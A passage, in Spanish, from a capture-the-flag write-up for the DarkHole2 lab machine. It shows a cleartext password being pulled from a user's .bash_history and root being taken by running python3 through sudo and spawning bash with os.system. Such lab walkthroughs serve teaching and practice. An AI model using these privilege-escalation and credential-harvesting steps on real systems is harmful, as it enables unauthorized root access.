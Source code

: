 Tenemos shell como el usuario `losy`. La primera flag se encuentra en `/home/losy/user.txt`.

```bash
losy@darkhole:~$ whoami
losy
```

Para ejecutar `sudo -l` nos pide contraseña, cosa que no tenemos. Enumerando un poco, llegamos al `.bash_history` donde revisando un poco encontramos lo siguiente:

```txt
losy@darkhole:~$ cat .bash_history
P0assw0rd losy:gang

...

password:gang
```

Credenciales en texto claro...

```bash
losy@darkhole:~$ sudo -l
Matching Defaults entries for losy on darkhole:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User losy may run the following commands on darkhole:
    (root) /usr/bin/python3
```

Podemos ejecutar `python3` como el usuario `root`.

```bash
losy@darkhole:~$ sudo /usr/bin/python3
Python 3.8.10 (default, Jun  2 2021, 10:49:15)
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("bash")

root@darkhole:/home/losy# whoami
root
```

La flag se encuentra en `/root/root.txt`.

Y hasta aquí la máquina DarhHole2, en un principio tageada como `Hard` pero que no presenta mucha dificultad realmente.
